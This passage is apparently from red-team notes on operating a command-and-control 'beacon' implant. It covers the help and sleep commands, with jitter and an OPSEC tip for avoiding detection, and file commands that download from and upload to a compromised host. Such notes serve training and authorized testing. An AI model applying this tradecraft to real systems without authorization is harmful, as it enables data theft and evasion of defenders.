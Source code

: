 
## Help <command>

We can also get help of a command with `help <command>`:

```
beacon> help sleep
Use: sleep [time in seconds] <jitter>

Change how often the beacon calls home. Use sleep 0 to force Beacon to call 
home many times each second. 

Specify a jitter value (0-99) to force Beacon to randomly modify its sleep time.
```

> **Note**: Parameters wrapped in `[ ]` are mandatory, whilst those in `< >` are optional although the default value maybe in not the best option.



## Sleep

With `sleep` command we can modify the time when the beacon checks into the team server, by default is setted to 60 seconds.

```
beacon> sleep 5
[*] Tasked beacon to sleep for 5s
[+] host called home, sent: 16 bytes
```

> **OPSEC Note**: Set a fast check-in can increase the chance of detection, it is also recommended to use a jitter which randomize the check-in time by a given percentage.

## File Management

There are some commands to interact with files.

```powershell
# List the file on the specified directory
beacon > ls <C:\Path>

# Change into the specified working directory
beacon > cd [directory]

# Delete a file\folder
beacon > rm [file\folder]

# File copy
beacon > cp [src] [dest]

# Download a file from the path on the Beacon host
beacon > download [C:\filePath]

# Lists downloads in progress
beacon > downloads

# Cancel a download currently in progress
beacon > cancel [*file*]

# Upload a file from the attacker to the current Beacon host
beacon > upload [/path/to/file]
```
